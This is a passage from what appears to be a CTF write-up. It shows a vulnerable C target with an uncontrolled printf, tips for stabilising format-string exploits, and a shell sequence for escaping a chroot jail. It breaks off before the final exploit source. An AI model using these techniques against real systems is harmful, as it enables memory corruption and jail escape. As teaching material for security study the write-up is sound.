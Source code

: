 ```c
        execve("./target",0,new_envp);
    }
}
```


> target.c
```c
#include<stdio.h>
int main(){
    char buf[0x10];
    while(1){
        read(0,buf,0x10);
        printf("%4096c\n");
    }
}
```

# 0x05 Tips about Format String

1. `printf("%cn132%n",0,var1)` would print `\x00n132` and set `var1` to 5. We don't need to worry `\x00` generated by "%c" would stop us receiving the leaked data after it.
2. Try to use "%c" rather than other symbols while attacking since "%c" has consistent length while, for example, "%x" doesn't. Using "%c" would make the exploit more stable.
3. If it's complex for you to attack and leak in the same payload, just split it. It could be verbose but it's easy to understand and debug.

# 0x06 Escape from Chroot

If we have permission to perform `chroot` options, we can do the following to escape from a chroot jail.

```sh
mkdir n132
cd n132
chroot n132
cd ../../../.../../../../../flag
```

# 0x07 Fianl Exploit

I didn't write the IO part for it since I didn't solve the challenge during the game.
I tested the following binary by leaving it in `rootfs` and packing `rootfs` before building the docker image. Also, you need to run the following commands to prepare:

```
mkdir n132
touch n132/data
./exp
``` 

The source code of the `exp.c:
